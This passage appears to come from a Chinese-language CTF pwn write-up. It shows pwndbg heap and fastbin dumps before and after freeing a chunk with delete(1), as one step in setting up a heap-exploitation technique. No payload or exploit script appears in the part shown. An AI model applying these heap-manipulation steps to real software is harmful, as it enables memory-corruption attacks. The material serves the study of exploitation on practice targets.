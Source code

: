 ```
pwndbg> heap
Allocated chunk | PREV_INUSE      //heap0_struct
Addr: 0x603000
Size: 0x21

Allocated chunk | PREV_INUSE      //heap0_content
Addr: 0x603020
Size: 0x21

Allocated chunk | PREV_INUSE      //heap1_struct+heap1_content
Addr: 0x603040
Size: 0x41

Top chunk | PREV_INUSE
Addr: 0x603080
Size: 0x20f81
```

第三步：删除heap1

```
delete(1)
```

```
pwndbg> heap
Allocated chunk | PREV_INUSE         //heap0_struct
Addr: 0x603000
Size: 0x21

Allocated chunk | PREV_INUSE         //heap0_content
Addr: 0x603020
Size: 0x21

Free chunk (fastbins) | PREV_INUSE   //heap1_struct+heap1_content
Addr: 0x603040
Size: 0x41
fd: 0x00

Top chunk | PREV_INUSE
Addr: 0x603080
Size: 0x20f81

pwndbg> bins
fastbins
0x20: 0x603060 ◂— 0x0     
0x30: 0x0
0x40: 0x603040 ◂— 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
```
